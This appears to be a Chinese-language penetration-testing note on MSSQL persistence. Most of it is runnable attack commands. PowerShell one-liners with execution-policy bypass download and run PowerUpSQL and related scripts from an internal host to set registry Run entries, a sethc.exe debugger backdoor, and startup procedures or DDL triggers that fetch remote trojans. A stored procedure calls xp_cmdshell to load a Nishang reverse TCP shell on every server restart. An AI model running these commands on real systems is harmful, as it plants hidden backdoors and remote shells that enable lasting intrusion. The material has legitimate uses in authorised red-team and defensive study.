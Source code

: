 #### 注册表自启动
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegRun -Verbose -Name Update -Command 'c:\windows\temp\Update.exe' -Instance "zone.com\sub2k8""
#### 重启MSSQL上线(需重启服务)
	http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1
	>powershell -ep bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Powershellery/Stable-ish/MSSQL/Invoke-SqlServer-Persist-StartupSp.psm1') 
	>Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "zone.com\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')" 远程木马脚本可用CS/Empire生成
	>net stop mssqlserver
	>net start mssqlserver
#### 映像劫持
	>powershell -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/PowerUpSQL.ps1');Get-SQLPersistRegDebugger -Verbose -FileName sethc.exe -Command "c:\windows\system32\cmd.exe" -Instance "zone.com\sub2k8""
#### DDL事件触发
	>powershell -exec bypass 
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/PowerUpSQL/Invoke-SqlServer-Persist-TriggerDDL.psm1') 
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance "zone\sub2k8" -PsCommand "IEX(new-object net.webclient).downloadstring('http://192.168.0.107/xxxx')"  远程木马文件可用CS/Empire生成
	>Invoke-SqlServer-Persist-TriggerDDL -Verbose -SqlServerInstance " zone\sub2k8" -Remove   移除后门
#### WarSQLKit(后门)
	http://eyupcelik.com.tr/guvenlik/493-mssql-fileless-rootkit-warsqlkit
#### 存储过程维持权限
	>USE master
	>GO
![image](/assets/Pentest_Note/master/img/912.png)

	>wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
![image](/assets/Pentest_Note/master/img/913.png)

	修改下脚本的ip和端口
	创建个web服务，把脚本传上去
![image](/assets/Pentest_Note/master/img/914.png)

	创建存储过程
	>CREATE PROCEDURE test_sp
	>AS
	>EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://192.168.1.2/Invoke-PowerShellTcpOneLine.ps1'')"'
	>GO
![image](/assets/Pentest_Note/master/img/915.png)

	设置服务器启动时立刻执行
	EXEC sp_procoption @ProcName = 'test_sp'
	, @OptionName = 'startup'
	, @OptionValue = 'on';
![image](/assets/Pentest_Note/master/img/916.png)

	设置完成，使用命令可以查到我们的存储过程
	>SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY ( id, 'ExecIsStartUp' ) = 1 ;
![image](/assets/Pentest_Note/master/img/917.png)

	打开nc监听
![image](/assets/Pentest_Note/master/img/918.png)

	重启后可以收到会话
![image](/assets/Pentest_Note/master/img/919.png)
![image](/assets/Pentest_Note/master/img/920.png)
![image](/assets/Pentest_Note/master/img/921.png)